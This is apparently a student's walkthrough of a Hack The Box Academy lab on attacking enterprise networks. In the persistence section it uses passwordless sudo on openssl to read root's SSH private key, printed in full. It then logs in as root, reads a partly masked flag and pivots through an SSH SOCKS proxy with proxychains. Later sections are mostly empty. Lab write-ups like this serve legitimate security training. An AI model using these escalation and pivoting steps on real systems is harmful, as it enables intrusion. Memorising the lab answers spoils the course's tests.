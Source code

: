 # [Attacking Enterprise Networks](https://academy.hackthebox.com/module/details/163)

## Internal Testing

### Table of Contents

- [x] Internal Testing
	- [x] Post-Exploitation Persistence
	- [x] Internal Information Gathering
	- [x] Exploitation and Privilege Escalation
- [ ] Lateral Movement and Privilege Escalation
	- [ ] Lateral Movement
	- [ ] Active Directory Compromise
	- [ ] Post-Exploitation

---

### Post-Exploitation Persistence

Questions:
1. Escalate privileges on the target host and submit the contents of the `flag.txt` file in the `/root` directory. `a3498***************************`

```yaml
credentials:
    username: srvadm
    password: ILFreightnixadm!
    host: inlanefreight.local
    port: 22 (ssh)
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh srvadm@inlanefreight.local

srvadm@inlanefreight.local's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

[SNIP]

$ bash -i
srvadm@dmz01:~$
```

```
srvadm@dmz01:~$ id

uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
```

```
srvadm@dmz01:~$ sudo -l

[SNIP]

User srvadm may run the following commands on dmz01:
    (ALL) NOPASSWD: /usr/bin/openssl
```

![Firefox - GTFOBins openssl File Read](./assets/screenshots/attacking_enterprise_networks_internal_testing_01.png)

```
srvadm@dmz01:~$ LFILE=/root/.ssh/id_rsa; sudo openssl enc -in "$LFILE"

-----BEGIN OPENSSH PRIVATE KEY-----
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
WNfJbbEPrmQf0AAAALcm9vdEB1YnVudHU=
-----END OPENSSH PRIVATE KEY-----
```

```
┌──(nabla㉿kali)-[~]
└─$ vim root_ssh_sk

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ chmod 600 root_ssh_sk
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh -i root_ssh_sk root@inlanefreight.local

[SNIP]

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

root@dmz01:~# 
```

```
root@dmz01:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@dmz01:~# root@dmz01:~# cat /root/flag.txt

a3498*************************** 📌
```

```
root@dmz01:~# ifconfig | grep -w inet -B1

--
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.69.184  netmask 255.255.0.0  broadcast 10.129.255.255
--
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.0.0  broadcast 172.16.255.255
```

---

### Internal Information Gathering

Questions:
1. Mount an NFS share and find a `flag.txt` file. Submit the contents as your answer. ``

```
┌──(nabla㉿kali)-[~]
└─$ grep socks4 /etc/proxychains.conf

#	 	socks4	192.168.1.49	1080
#       proxy types: http, socks4, socks5, raw
socks4 	127.0.0.1 9050
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh -i root_ssh_sk -D 9050 root@inlanefreight.local

[SNIP]

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

root@dmz01:~# 
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo netstat -antp | grep 9050

tcp        0      0 127.0.0.1:9050          0.0.0.0:*               LISTEN      39834/ssh           
tcp6       0      0 ::1:9050                :::*                    LISTEN      39834/ssh
```

```
┌──(nabla㉿kali)-[~]
└─$ proxychains nmap -sT -p21,22,80,8080 172.16.8.120

[SNIP]


```

```
┌──(nabla㉿kali)-[~]
└─$ 
```

```
┌──(nabla㉿kali)-[~]
└─$ 
```

---

### Exploitation and Privilege Escalation

Questions:
1. Retrieve the contents of the SAM database on the DEV01 host. Submit the NT hash of the administrator user as your answer.
2. Escalate privileges on the DEV01 host. Submit the contents of the `flag.txt` file on the `Administrator` Desktop.

```
┌──(nabla㉿kali)-[~]
└─$ 
```

```
┌──(nabla㉿kali)-[~]
└─$ 
```

```
┌──(nabla㉿kali)-[~]
└─$ 
```

```
┌──(nabla㉿kali)-[~]
└─$ 
```

---
---
